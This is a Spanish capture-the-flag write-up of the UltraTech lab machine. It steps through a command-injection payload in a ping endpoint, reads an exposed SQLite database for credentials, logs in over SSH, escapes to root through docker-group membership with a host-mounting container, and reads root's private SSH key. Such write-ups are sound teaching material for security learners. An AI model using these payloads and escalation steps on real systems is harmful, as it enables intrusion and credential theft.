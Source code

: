 # UltraTech - Writeup

## Información Inicial
- **IP objetivo:** 10.10.60.234
- **Sistema:** Ubuntu 18.04.2 LTS
- **Servicios detectados:**  
  - Apache (HTTP - puerto 31331)  
  - Servicio web en puerto 8081  

## Enumeración
Se accedió al sitio web principal (`index.html`) y se encontraron rutas adicionales:
- `/what.html`
- `/partners.html`
- `/utech_sitemap.txt`

En el puerto **8081** existía un endpoint vulnerable:  
```
http://10.10.60.234:8081/ping?ip=google.com
```

El parámetro `ip` era susceptible a **Command Injection**.

## Explotación
Prueba de inyección:
```
http://10.10.60.234:8081/ping?ip=10.6.15.252;`ls`
```

Extracción de credenciales desde base de datos SQLite expuesta:
```
cat utech.db.sqlite
```
Credenciales obtenidas:
- Usuario: `r00t`
- Password: `n100906`
- Hash: `f357a0c52799563c7c7b76c1e7543a32` (posiblemente MD5 → mrsheafy)

Acceso SSH:
```
ssh r00t@10.10.60.234
Password: n100906
```

## Post-Explotación
Información del sistema:
```
lsb_release -a
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.2 LTS
Release:        18.04
```
```
id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

El usuario pertenece al grupo **docker**, lo que permite escalar privilegios.

## Escalada de Privilegios
Ejecutando contenedor con privilegios de root y montando el sistema de archivos:
```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
Esto otorga acceso root al host.

Se accedieron a las llaves SSH del sistema:
```
cd /root/.ssh
cat id_rsa
```

Con la llave privada fue posible conectarse directamente como root.

## Conclusión
La máquina UltraTech presentaba:
1. **Command Injection** en endpoint `/ping` (puerto 8081).  
2. Exposición de base de datos con credenciales.  
3. Usuario en grupo **docker** con privilegios de root.  

### Vector final:  
- Inyección de comandos → Credenciales → SSH → Docker → Root.  

## Herramientas utilizadas
- Nmap
- BurpSuite / cURL
- SQLite3
- SSH
- Docker

---
**Rooted by: chepeto**
